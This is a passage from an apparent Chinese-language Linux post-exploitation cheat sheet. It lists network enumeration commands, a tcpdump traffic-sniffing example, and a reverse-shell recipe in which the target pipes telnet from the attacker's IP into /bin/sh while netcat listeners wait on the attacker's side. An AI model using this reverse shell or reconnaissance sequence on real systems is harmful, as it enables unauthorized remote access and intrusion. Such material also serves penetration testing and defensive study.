 ## 通信与网络

### NIC(s)，系统有哪些？它是连接到哪一个网络？

```
/sbin/ifconfig -a
cat /etc/network/interfaces
cat /etc/sysconfig/network
```

### 网络配置设置是什么？网络中有什么样的服务器？DHCP服务器？DNS服务器？网关？

```
cat /etc/resolv.conf
cat /etc/sysconfig/network
cat /etc/networks
iptables -L
hostname
dnsdomainname
```

### 其他用户主机与系统的通信？

```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

### 缓存？IP和/或MAC地址?

```
arp -e
route
/sbin/route -nee
```

数据包可能嗅探吗？可以看出什么？监听流量

```
# tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21
```

### 你如何get一个shell？你如何与系统进行交互？

```
# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
nc -lvp 4444    # Attacker. 输入 (命令)
nc -lvp 4445    # Attacker. 输出(结果)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # 在目标系统上. 使用 攻击者的IP!
```
